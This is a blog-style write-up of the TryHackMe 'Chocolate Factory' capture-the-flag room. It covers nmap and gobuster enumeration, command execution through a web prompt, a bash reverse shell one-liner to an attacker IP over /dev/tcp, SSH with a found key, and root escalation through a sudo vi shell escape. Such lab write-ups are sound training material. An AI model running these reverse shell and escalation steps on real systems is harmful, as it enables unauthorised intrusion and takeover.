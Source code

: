 ```yaml
---
title: "ChocolateFactory TryHackMe"
date: "07-12-2021"
author: "Reda BELHAJ"
summary: "This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa!"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/chocolateTHM/chocolate.jpg"
---
```


## Enumeration:
### Nmap Scan:
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap -sC -sV -n -Pn 10.10.48.21 --reason
```

|Port   |Service   |
|---|---|
|21/tcp   |FTP   |
|22/tcp   |SSH   |
|80/tcp   |HTTP   |
|100/tcp  |newacct?  |
|106/tcp  |pop3pw?  |
|109/tcp  |pop2?  |
|110/tcp  |pop3?  |
|111/tcp  |rpcbind?  |
|113/tcp  |ident?  |
|119/tcp  |nntp?  |
|125/tcp  |locus-map?  |

### Gobuster Scan:
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.48.21/  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php 
```

The wordlist I choosed to run this scan can be found in [danielmiessler's repository](https://github.com/danielmiessler/SecLists).

After we've completed our scan, we see a new page : ***"home.php"*** that allow you to submit commands via a prompt, I used the ls command and then the cat command to find the key in a file called **key\_rev\_key**.

## Enter the key you found!

```
VkgXhFf6sAE*******************************
```

## Reverse Shell

```
bash -c 'exec bash -i &>/dev/tcp/10.8.174.180/4444 <&1'
```

## What is Charlie's password?

I was looking with (www-html) user permission 
I found the password of charlie in the ***validate.php*** file:

```
cn****
```

## Enter the user flag
and I also found an rsa key and i saved it in ***Desktop/rsa***

```
ssh charlie@10.10.48.21 -i rsa
```

```
cat /home/charlie/user.txt
```

## Privilege Escalation

I typed the famous:
```
sudo -l
```

and it returned:
```
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi

```

So i run the command sa root and i typed 
```
:shell
```

And i tried to find the root flag by :
```
find / root.txt
```

and i found: /root/root.py and I typed the key that i found in the first question:
```
flag{cec5916*************************}
```

![root image](/images/chocolateTHM/root.jpg)